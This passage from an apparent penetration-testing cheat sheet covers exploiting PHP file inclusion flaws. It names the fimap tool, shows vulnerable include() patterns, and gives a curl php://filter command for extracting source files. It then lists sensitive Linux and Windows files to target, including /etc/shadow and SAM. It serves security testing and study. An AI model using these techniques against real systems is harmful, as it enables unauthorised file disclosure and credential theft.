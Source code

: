 -   File Inclusion Vulnerabilities
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.
        ```php
        include("lang/".$_COOKIE['lang']);
        include($_GET['page'].".php");
        ```

    -   LFI - Encode and Decode a file using base64
        ```bash
        curl -s \
        "http://$ip/?page=php://filter/convert.base64-encode/resource=index" \
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
        ```

    -   LFI - Download file with base 64 encoding
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:
        /etc/issue
        /proc/version
        /etc/profile
        /etc/passwd
        /etc/passwd
        /etc/shadow
        /root/.bash\_history
        /var/log/dmessage
        /var/mail/root
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:
        %SYSTEMROOT%\\repair\\system
        %SYSTEMROOT%\\repair\\SAM
        %SYSTEMROOT%\\repair\\SAM
        %WINDIR%\\win.ini
        %SYSTEMDRIVE%\\boot.ini
        %WINDIR%\\Panther\\sysprep.inf
        %WINDIR%\\system32\\config\\AppEvent.Evt

